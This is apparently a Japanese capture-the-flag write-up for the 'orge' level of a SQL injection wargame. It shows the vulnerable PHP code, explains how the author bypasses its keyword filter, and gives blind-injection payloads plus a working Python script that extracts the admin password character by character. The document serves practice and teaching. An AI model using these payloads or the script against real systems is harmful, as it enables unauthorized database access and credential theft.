 # orge

## answer

- [orc](../src/orge.py)

## problem

```
query : select id from prob_orge where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=1
```

とすると

```
query : select id from prob_orge where id='guest' and pw='1'
```

となった。

コードを読んでいく。

```
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```

これは前と同じ。

違う点といえば、

```
$_GET[pw] = addslashes($_GET[pw]); 
$query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
```

答えが欲しければ最後にはadminでログインする必要あり。

ちなみに、addslashesにより、以下の文字はエスケープされる。

- シングルクォート (')
- ダブルクォート (")
- バックスラッシュ (\)
- NUL (NULL バイト)

```?pw=1'||id='admin```

これでいく。

```https://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=1'%7C%7Cid%3D'admin```

```
query : select id from prob_orge where id='guest' and pw='1'||id='admin'

Hello admin
```

とでた。

どうやら問題は解けてないようだ。

多分```if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");```の後半の条件文がfalseでクリア条件が実行されてない。

もし```$query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; ```が成功していたら、Hello adminって画面に出してくれるので、BlindSQLiかなと思う。

SUBSTRでエクスプロイトのプロトタイプを作ってみる。空白は禁止されてない。のびのびやろう。


```?pw=1' || SUBSTR(pw,1,1) < 'A' && id='admin```

```?pw=1' || SUBSTR(pw,1,1) > 'A' && id='admin```

この２つで挙動が変わってくれって願いながらやってみる。URLエンコード

```?pw=1'%20%7C%7C%20SUBSTR(pw%2C1%2C1)%20%3C%20'A'%20%26%26%20id%3D'admin```

```?pw=1'%20%7C%7C%20SUBSTR(pw%2C1%2C1)%20%3E%20'A'%20%26%26%20id%3D'admin```

上の方のエクスプロイトのみ```Hello Admin```を返す。

どうやらいけそう。

じゃあ、コードを書いていくぜ。


```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php"
    ua = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'
    headers = {'User-Agent': ua}
    cookies = dict(PHPSESSID='XXXXXXXXXXXXXXXXXXXXXXXX')

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    for count in range(1, 10):
        for char in chars:
            val = '1\' || SUBSTR(pw,{count},1)=\'{char}\' && id = \'admin'.format(count = count, char = char)
            params = {'pw': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello admin") == 1:
                password += char
                print(password)
                break
            if char == 'Z':
                print("not found")
                return
            time.sleep(0.1)
    print(password)

if __name__ == "__main__":
    main()
```

## supplementary

これも前に言ったかもだけど、先にパスワードの長さを取得するのもスタンダードらしいっす。

```
?pw=1' || length(pw)=8 && id='admin
```

こんな感じかな？

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [addslashed | php manual](https://www.php.net/manual/ja/function.addslashes.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

- [論理演算子 | MySQL manual](https://dev.mysql.com/doc/refman/5.6/ja/logical-operators.html)